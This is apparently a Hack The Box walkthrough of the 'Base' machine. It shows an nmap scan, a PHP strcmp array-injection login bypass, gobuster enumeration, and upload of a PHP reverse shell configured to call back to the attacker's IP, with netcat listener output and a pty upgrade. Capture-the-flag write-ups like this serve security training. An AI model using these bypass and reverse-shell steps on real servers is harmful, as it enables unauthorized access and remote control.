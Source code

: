 ## ------------>> Base <<----------------

// We start with nmap scan

    $ nmap -sC -sV -A -Pn 10.10.10.48 -p-
-----    
    
    Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-02 21:35 EDT
    Stats: 0:01:30 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
    Connect Scan Timing: About 7.28% done; ETC: 21:55 (0:18:53 remaining)
    Nmap scan report for 10.10.10.48
    Host is up (0.37s latency).
    Not shown: 65533 closed ports
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 f6:5c:9b:38:ec:a7:5c:79:1c:1f:18:1c:52:46:f7:0b (RSA)
    |   256 65:0c:f7:db:42:03:46:07:f2:12:89:fe:11:20:2c:53 (ECDSA)
    |_  256 b8:65:cd:3f:34:d8:02:6a:e3:18:23:3e:77:dd:87:40 (ED25519)
    80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
    |_http-server-header: Apache/2.4.29 (Ubuntu)
    |_http-title: Site doesn't have a title (text/html).
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


// Nvigatin to http://10.10.10.48/ we got some website that have a login page


![Image 1](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Base/1.png)


// Due to miscunfigiration of the develepo we could access the directory from http://10.10.10.48/login/  

// There we can see file login.pgp.swp


![Image 2](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Base/2.png)


// In the file we can see block of code


    $ cat login.php.sw
-----

    </html></body><script src="assets/js/main.js"></script><script src="assets/js/util.js"></script><script src="assets/js/breakpoints.min.js"></script><script src="assets/js/browser.min.js"></script><script src="assets/js/jquery.poptrox.min.js"></script><script src="assets/js/jquery.min.js"></script><!-- Scripts --></div>    </div>        </div>            </form>                </ul>                    </li>                        <button class="button" type="submit" value="Submit">Login</button>                    <li>                <ul>                </ul>                    <li><input type="password" name="password" id="password"></li>                    <li><input type="text" name="username" id="username"></li>                <ul>            <form id="login-form" method="POST" action="" onsubmit="">        <div id="menu">        </div>            <h1><a href="index.php">Base</a></h1>        <div id="logo">    <div id="header" class="container"><div id="header-wrapper"><!-- Main --><!-- Wrapper --><body></head>    <link href="default_ie6.css" rel="stylesheet" type="text/css"/><![endif]-->    <!--[if IE 6]>    <link href="fonts.css" rel="stylesheet" type="text/css" media="all"/>    <link href="default.css" rel="stylesheet" type="text/css" media="all"/>    <link href="http://fonts.googleapis.com/css?family=Source+Sans+Pro:200,300,400,600,700,900" rel="stylesheet"/>    <meta name="description" content=""/>    <meta name="keywords" content=""/>    <title>Base Login</title>    <meta http-equiv="Content-Type" content="text/html; charset=utf-8"/><head><html xmlns="http://www.w3.org/1999/xhtml"><!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">?>}    }        print("<script>alert('Wrong Username or Password')</script>");    } else {        }            print("<script>alert('Wrong Username or Password')</script>");        } else {            header("Location: upload.php");            $_SESSION['user_id'] = 1;        if (strcmp($password, $_POST['password']) == 0) {    if (strcmp($username , $_POST['username']) == 0) {    require('config.php');if (!empty($_POST['username']) && !empty($_P


// it seems that its the authentication mehod for the login


    if (strcmp($password, $_POST['password']) == 0) 
    if (strcmp($username , $_POST['username']) == 0)


// Developer uses strcmp to check username and password, whitch its insecure and can be easilly bypass

// due to the fact that if strcmp is given an empty array to compare againts the stored password, it retuens null.

// in PHP the == operator only checks the value of a viriable for equality and the value of null is equal to 0.

// the correct way to write this its using === which checks both the value and type.

// lets open burp and catch the login packet


![Image 3](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Base/3.png)


// Now lets send another login but this time we will edit the request in BurpSuite proxy

// edit to last line and send

    username[]=test&password[]=test

![Image 4](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Base/4.png)


// We got redirect to http://10.10.10.48/upload.php , where we can upload files


![Image 5](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Base/5.png)


// when upload file its send us succcess but where the file?... lets run gobuster

    $ gobuster dir -u http://10.10.10.48/ -w /usr/share/wordlists/dirb/big.txt -q -n -e
-----    
    
    http://10.10.10.48/.htaccess            [Size: 276]
    http://10.10.10.48/.htpasswd            [Size: 276]
    http://10.10.10.48/_uploaded            [Size: 314] [--> http://10.10.10.48/_uploaded/]


// lets test if and upload some file and call him

    $ touch 1 > test.txt

// Upload test.txt and navigate to http://10.10.10.48/_uploaded/test.txt , it works!


![Image 6](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Base/6.png)


// lets upload php reverse shell (u can either cp or download from ![here](https://www.revshells.com/))

    $ cp /usr/share/laudanum/php/php-reverse-shell.php php_rshell.php
// editing the file with our ip and port

    ...
    set_time_limit (0);
    $VERSION = "1.0";
    $ip = '10.10.16.14';  // CHANGE THIS
    $port = 1444;       // CHANGE THIS
    $chunk_size = 1400;
    $write_a = null;
    $error_a = null;
    $shell = 'uname -a; w; id; /bin/sh -i';
    $daemon = 0;
    $debug = 0;
    ...

// open a listiner with nc

    $ rlwrap nc -lvnp 1444
    listening on [any] 1444 ...
 
 // and navigate to 10.10.10.48/_uploaded/php_rshell.php
 
    $ rlwrap nc -lvnp 1444
    listening on [any] 1444 ...
    connect to [10.10.16.14] from (UNKNOWN) [10.10.10.48] 40934
    Linux base 4.15.0-88-generic #88-Ubuntu SMP Tue Feb 11 20:11:34 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
     06:15:16 up 13:43,  0 users,  load average: 0.00, 0.00, 0.00
    USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    /bin/sh: 0: can't access tty; job control turned off
    id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)


// lets promote shell using python

    python3 -c "import pty;pty.spawn('/bin/bash')"







Access ID | Name | Email
----------|------|-------
34322 | admin | admin@megacorp.com

